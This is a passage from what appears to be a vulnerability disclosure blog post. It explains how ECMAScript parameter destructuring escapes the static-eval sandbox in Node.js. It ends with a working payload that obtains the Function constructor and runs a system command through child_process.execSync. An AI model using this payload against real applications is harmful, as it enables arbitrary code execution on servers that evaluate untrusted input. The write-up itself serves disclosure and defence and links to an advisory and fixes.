 As I commented before, static-eval uses [the esprima library][esprima] to parse
the code we give to it. According to its documentation, esprima is a parser
that fully supports the [ECMAScript standard][ecma]. ECMAScript is something
like a dialect of JavaScript with more features, that makes its syntax more
comfortable to the user[^ecma-disclaimer].

[ecma]: https://www.ecma-international.org/ecma-262/7.0/
[^ecma-disclaimer]: It's worth noting that this is a pretty vague and incorrect
definition of what ECMAScript is. My indifference to the JavaScript ecosystem
makes me don't even bother in finding a more correct definition.

One feature that was added to ECMAScript is [function parameter
destructuring][destructuring].  With this feature, the following JS code is now
valid:

[destructuring]: https://simonsmith.io/destructuring-objects-as-function-parameters-in-es6/

```js
function fullName({firstName, lastName}){
    return firstName + " " + lastName;
}
console.log(fullName({firstName: "John", lastName: "McCarthy"}))
```

The curly braces inside the definition of the function arguments indicate that
the function doesn't take two arguments `firstName` and `lastName`. Instead, it
takes just one argument that is an object that must have the `firstName` and
`lastName` properties.  The previous code is equivalent to the following:

```js
function fullName(person){
    return person.firstName + " " + person.lastName;
}
console.log(fullName({firstName: "John", lastName: "McCarthy"}))
```

If we see the AST generated by esprima (I did it by using [this tool][esprima-online-parser]),
we will have a very satisfactory result:

![Result of parsing the function using parameter destructuring][object-pattern]

[object-pattern]: /images/static-eval/esprima-online-parser-en.png
[esprima-online-parser]: http://esprima.org/demo/parse.html

Indeed, this new syntax makes the function argument have a `key.type` different from
`Identifier`, so static-eval won't use it when it overrides the variables. This way,
when evaluating

```js
(function({book}){return book.constructor})({book:"".sub})
```

static-eval will use the initial value of `book`, that is an object. Then, it
allows the creation of the function. But when it is called, book will be a
function, so the function constructor is now returned. I found the bypass!

The previous expression returns the function constructor, so I only have
to call it to create a malicious function, and then call this created
function:

```js
(function({book}){return book.constructor})({book:"".sub})("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()
```


[static-eval]: https://github.com/substack/static-eval
[substack]: https://twitter.com/substack
[esprima]: https://github.com/jquery/esprima/
[ast]: https://en.wikipedia.org/wiki/Abstract_syntax_tree
[main-code]: https://github.com/substack/static-eval/blob/master/index.js
[pull-request]: https://github.com/substack/static-eval/pull/18
[maustin-blogpost]: https://maustin.net/articles/2017-10/static_eval
[template-injection]: https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs
[constructor]: https://developer.mozilla.org/es/docs/Web/JavaScript/Referencia/Objetos_globales/Function
[vm2-escape]: https://github.com/patriksimek/vm2/issues/32
[img-constructor]: /images/static-eval/constructor-bypass.png "Result of executing the previous payload"
[execSync]: /images/static-eval/constructor-execsync.png "Result of executing the payload that runs the `id` command in the system"
[img-pwned]: /images/static-eval/exploit-final.png
[forrest-gump-img]: /images/static-eval/npm-install.jpeg
[jsonpath-lib]: https://github.com/dchester/jsonpath
[jsonpath-blogpost]: https://goessner.net/articles/JsonPath/
[esprima-patch]: https://github.com/dchester/jsonpath/blob/87f97be392870c469308dd4dc90d2067863ea02a/lib/aesprim.js#L8
[original-link]: /posts/static-eval-sandbox-escape-original-writeup/
[advisory]: https://www.npmjs.com/advisories/758
[fix-pr]: https://github.com/browserify/static-eval/pull/21
[fix2]: https://github.com/browserify/static-eval/pull/23
[readme-pr]: https://github.com/browserify/static-eval/pull/22/files